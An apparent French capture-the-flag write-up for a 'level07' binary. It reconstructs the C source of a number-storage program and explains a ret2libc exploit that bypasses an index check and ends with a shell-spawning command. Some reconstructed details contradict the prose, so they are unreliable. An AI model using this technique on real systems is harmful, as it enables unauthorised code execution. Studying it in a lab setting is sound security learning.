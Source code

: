 # Level 07

## Analyse du binaire

Lorsqu'on exécute le binaire, une "commande" est attendue sur l'entrée standard. On a le choix entre :

- **read** : lit un nombre à un index voulu
- **store** : stocke un nombre voulu à un index voulu
- **quit** : sort du programme

Le code asm est assez long, on retrouve notamment les instructions :

- Initialisation de tableau :

```asm
rep stos DWORD PTR es:[edi],eax
```

- Calcul de la longueur d'une chaîne de caractère :

```asm
repnz scas al,BYTE PTR es:[edi]
```

- Comparaison entre deux chaînes de caractères :

```asm
repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
```

- Division d'un nombre par 3, en faisant une multiplication par `2^33 / 3 = 0xaaaaaaab` (voir sources) :

```asm
mov    DWORD PTR [ebp-0xc],eax
mov    ecx,DWORD PTR [ebp-0xc]
mov    edx,0xaaaaaaab
mov    eax,ecx
mul    edx
shr    edx,1
```

On peut réécrire un code source en C :

```c
void clear_stdin(void)
{
	int c; // ebp-0x9

	c = 0;
	while (c != 0xff)
	{
		c = getchar();
		if (c == '\n')
			return;
	}
}

int get_unum(void)
{
	uint nb; // ebp-0xc

	nb = 0;
	fflush(stdout);
	scanf("%u", &nb);
	clear_stdin();
	return nb;
}

int read_number(char *data)
{
	uint index; // ebp-0xc

	printf(" Index: ");
	index = get_unum();
	printf(" Number at data[%u] is %u\n", index, data[index << 2]);
	return 0;
}

int store_number(char *data)
{
	uint nb;	// ebp-0x10
	uint index; // ebp-0xc

	nb = 0;
	index = 0;
	printf(" Number: ");
	nb = get_unum();
	printf(" Index: ");
	index = get_unum();

	uint tmp = index / 3;
	tmp *= 3;

	if (index - tmp == 0 || nb >> 24 != 0xb7)
	{
		puts(" *** ERROR! ***");
		puts("   This index is reserved for wil!");
		puts(" *** ERROR! ***");
		return 1;
	}
	data[index << 2] = nb; // same as ((uint32*)data)[index]
	return 0;
}

int main(int argc, const char **argv, char **envp)
{
	char command[20];		 // esp+0x1b8 - esp+0x1c8
	uint has_command_failed; // esp+0x1b4
	char *data[400];		 // esp+0x24
	char **av;				 // esp+0x1c
	char **env;				 // esp+0x18

	av = argv;
	env = envp;
	has_command_failed = 0;
	bzero(command, 20);
	bzero(data, 400);

	while (av[0] != NULL)
	{
		memset(av[0], 0, strlen(av[0]));
		av += 4;
	}

	while (env[0] != NULL)
	{
		memset(env[0], 0, strlen(env[0]));
		env += 4;
	}

	puts("----------------------------------------------------");
	puts("   Welcome to wil's crappy number storage service!  ");
	puts("----------------------------------------------------");
	puts("Commands:");
	puts("    store - store a number into the data storage");
	puts("    read  - read a number from the data storage");
	puts("    quit  - exit the program");
	puts("----------------------------------------------------");
	puts("   wil has reserved some storage :");
	puts("----------------------------------------------------");

	while (1)
	{
		printf("Input command: ");
		has_command_failed = 1;
		fgets(command[1], 20, stdin);

		command[strlen(command) - 1] = '\0';

		if (!strncmp(command, "store", 5))
			has_command_failed = store_number(data);
		else if (!strncmp(command, "read", 4))
			has_command_failed = read_number(data);
		else if (!strncmp(command, "quit", 4))
			return 0;

		if (has_command_failed)
			printf(" Failed to do %s command\n", command);
		else
			printf(" Completed %s command successfully\n", command);

		bzero(command, 20);
	}
}
```

# Exploit

On se doute qu'il faut utiliser la commande **read** pour écraser des valeurs intéressantes de la mémoire. En regardant le code de la fonction _store_number_, on remarque que notre index subit un décalage binaire à gauche de 2, soit une multiplication par 4. Le nombre que nous allons donné à la commande read sera donc stocké à l'adresse `DATA_ADDR + INDEX * 4`.

Cependant, on note aussi que l'index ne doit pas être un multiple de 3 et que le 1er octet du nombre que ne voulons stocké doit être différent de `0xb7`.

On peut essayer de faire un **ret2libc** pour lancer un shell. Pour ce faire, il nous faut l'adresse de la fonction _system_ et une adresse pointant sur la chaîne de caractères "/bin/sh". De plus on a besoin de l'adresse de notre buffer et l'**eip sauvegardé** de la fonction **main** à écraser. Comme vu au level04, avec gdb on obtient les adresses suivantes :

- system `0xf7e6aed0` (hex) = `4159090384` (dec)
- "/bin/sh" `0xf7f897ec` (hex) = `4160264172` (dec)
- eip `0xffffd60c`
- buffer `0xffffd444`

On doit donc :

- stocker l'adresse de la fonction _system_ à l'**eip sauvegardé**
- stocker l'adresse de la chaîne de caractères "/bin/sh" à **eip sauvegardé + 4**
- quitter le programme pour sortir de la fonction _main_ et exécuter la fonction système

On commence par faire la différence entre l'adresse de notre buffer et l'**eip sauvegardé** : `0xffffd60c - 0xffffd444 = 1C8 (hex) = 456 (dec)`. On doit donc diviser ce nombre par 4, ce qui nous donne 114. Problème : cet index est un multiple de 3 et la condition n'est donc pas respectée dans la fonction _store_number_. Sachant que la condition sur la division par 3 est fait **avant** le décalage binaire, on peut modifier les 2 premiers bits de notre index, puisque lors du décalage ces derniers vont "disparaître". On peut donc par exemple modifier le 1er bit à 1 ce qui nous donne :

```
0000 0000 0000 0000 0000 0000 0111 0010 (bin) = 72 (hex) = 114 (dec)
1000 0000 0000 0000 0000 0000 0111 0010 (bin) = 80000072 (hex) = 2147483762 (dec)
```

Pour l'index suivant qui est 116, cela ne pose pas de problème car il n'est pas divisible par 3.

Finalement on exécute la commande :

```bash
(echo "store" ; echo "4159090384" ; echo "2147483762" ; echo "store"; echo "4160264172" ; echo "116" ; echo "quit"; cat) | ./level07
```

## Sources

- https://stackoverflow.com/questions/63417818/why-does-division-by-3-require-a-rightshift-and-other-oddities-on-x86
- https://aakinshin.net/posts/perfex-div/
